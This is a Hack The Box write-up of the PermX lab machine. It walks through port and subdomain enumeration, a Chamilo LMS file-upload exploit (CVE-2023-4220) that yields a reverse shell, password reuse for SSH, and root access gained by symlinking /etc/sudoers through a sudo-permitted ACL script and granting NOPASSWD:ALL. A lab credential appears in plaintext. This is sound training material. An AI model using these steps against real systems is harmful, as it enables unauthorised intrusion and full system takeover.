







## MACHINE INFO

> **[PermX](https://app.hackthebox.com/machines/PermX)** is an Easy Difficulty Linux machine featuring a learning management system vulnerable to unrestricted file uploads via [CVE-2023-4220](https://nvd.nist.gov/vuln/detail/CVE-2023-4220). This vulnerability is leveraged to gain a foothold on the machine. Enumerating the machine reveals credentials that lead to SSH access. A `sudo` misconfiguration is then exploited to gain a `root` shell.

## ENUMERATION

Nmap Scan of target:
```sh
┌──(kai㉿kali)-[~/Machines/htb/permx]
└─$ sudo nmap -sCV -T4 -vv 10.10.11.23
[sudo] password for kai: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-08 15:14 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
Initiating Ping Scan at 15:14
Scanning 10.10.11.23 [4 ports]
Completed Ping Scan at 15:14, 0.24s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:14
Completed Parallel DNS resolution of 1 host. at 15:14, 0.05s elapsed
Initiating SYN Stealth Scan at 15:14
Scanning 10.10.11.23 [1000 ports]
Discovered open port 22/tcp on 10.10.11.23
Discovered open port 80/tcp on 10.10.11.23
Completed SYN Stealth Scan at 15:14, 3.88s elapsed (1000 total ports)
Initiating Service scan at 15:14
Scanning 2 services on 10.10.11.23
Completed Service scan at 15:14, 7.07s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.23.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 20.42s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 3.38s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
Nmap scan report for 10.10.11.23
Host is up, received echo-reply ttl 63 (0.60s latency).
Scanned at 2024-08-08 15:14:07 EDT for 35s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAyYzjPGuVga97Y5vl5BajgMpjiGqUWp23U2DO9Kij5AhK3lyZFq/rroiDu7zYpMTCkFAk0fICBScfnuLHi6NOI=
|   256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP8A41tX6hHpQeDLNhKf2QuBM7kqwhIBXGZ4jiOsbYCI
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:14
Completed NSE at 15:14, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.01 seconds
           Raw packets sent: 1186 (52.160KB) | Rcvd: 1186 (47.436KB)
```

### PORT 80 ENUMERATION

Some kind of learning platform. Not much information on the page.

**HIDDEN DIRECTORIES**
**GOBUSTER**
```sh
p0s3id0n@kali:~/Machines/htb/labs/permx$ gobuster dir -u http://permx.htb/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://permx.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd            (Status: 403) [Size: 274]
/css                  (Status: 301) [Size: 304] [--> http://permx.htb/css/]
/img                  (Status: 301) [Size: 304] [--> http://permx.htb/img/]
/index.html           (Status: 200) [Size: 36182]
/js                   (Status: 301) [Size: 303] [--> http://permx.htb/js/]
/lib                  (Status: 301) [Size: 304] [--> http://permx.htb/lib/]
/server-status        (Status: 403) [Size: 274]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

None of the directories had any useful information so I decided to enumerate for subdomains.
```sh
p0s3id0n@kali:~/Machines/htb/labs/permx$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://permx.htb/ -H "Host: FUZZ.permx.htb" -fc 302

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://permx.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.permx.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 302
________________________________________________

www                     [Status: 200, Size: 36182, Words: 12829, Lines: 587, Duration: 3257ms]
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 320ms]
:: Progress: [19966/19966] :: Job [1/1] :: 129 req/sec :: Duration: [0:02:37] :: Errors: 0 ::
```

### INITIAL FOOTHOLD
**LMS SUBDOMAIN**

From the subdomain, I identified the Chamilo LMS and the name of the admin `David Miller`

Used the following Chamilo LMS exploit: https://starlabs.sg/advisories/23/23-4220/

**EXPLANATION OF EXPLOIT**
The vulnerability in Chamilo LMS resides in the file upload functionality provided by `/main/inc/lib/javascript/bigupload/inc/bigUpload.php`. This functionality allows users to upload arbitrary files to the `/main/inc/lib/javascript/bigupload/files` directory within the web root.

For this,I uploaded a reverse shell file. I then triggered the execution of the file by calling on it using curl while my listener was active which resulted in me getting a shell.

But unfortunately as the current user, I do not have access to the home directory containing the user flag.


### LATERAL MOVEMENT
Have to laterally move to become user `mtz`
Uploaded linpeas for this and found the following config file that may contain useful information


Contents of the file


`chamilo:03F6lY3uXAP2bkW8`

Attempted to use the password to ssh as user mtz and it worked! We got user flag!!!


### PRIVILEGE ESCALATION
Sudo commands that user mtz can execute


```sh
mtz@permx:~$ cat /opt/acl.sh
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"
```

**EXPLANATION OF THE SCRIPT**
The script is designed to modify Access Control Lists (ACLs) on files within the `/home/mtz/` directory.

I got a bit stuck here but further research led me to a concept called `symlink`

> symbolic link (symlink) is a type of file in Unix-like operating systems that acts as a  shortcut to another file or directory

So basically what we are trying to achieve is create a shortcut to the list of users allow to sudo.

**STEP BY STEP BREAKDOWN**
- `ln -s /etc/sudoers /home/mtz/sudoers`: Symlinks are created using `ln -s`. This creates a symbolic link named `sudoers` in `/home/mtz/` that points to `/etc/sudoers`
- `sudo /opt/acl.sh mtz rwx /home/mtz/sudoers`: This command grants the user mtz read, write and execute permissions to the symlink pointing towards the /etc/sudoers file.
- After that, edit the `sudoers` file to grant the mtz user full sudo privileges without being prompted for a password.
	- `mtz ALL=(ALL) NOPASSWD:ALL`

With that successfully done, we can sudo su and WE ARE ROOT!!


And with that PermX is successfully pwned!
